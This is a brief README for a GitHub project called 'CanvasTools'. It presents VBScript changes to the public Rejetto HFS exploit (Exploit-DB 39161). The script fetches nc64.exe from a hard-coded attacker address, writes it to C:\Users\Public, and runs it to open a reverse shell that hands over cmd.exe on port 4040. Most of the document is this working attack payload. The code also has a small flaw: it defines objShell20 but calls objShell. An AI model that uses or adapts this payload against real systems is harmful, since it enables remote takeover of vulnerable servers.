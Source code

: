 # CanvasTools

Series of updates for exploits

## Updates
https://github.com/darkniyt/CanvasTools/wiki

### Updates to 39161.py:
Rejetto HFS exploit:  https://www.exploit-db.com/exploits/39161
####  Includes below changes to respctive script.vbs
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://10.6.26.69/nc64.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc64.exe", 2 '//overwrite
end with
Set objShell20= CreateObject("WScript.Shell")
objShell.Exec("C:\Users\Public\nc64.exe -d 10.6.26.69 4040 -e cmd.exe")
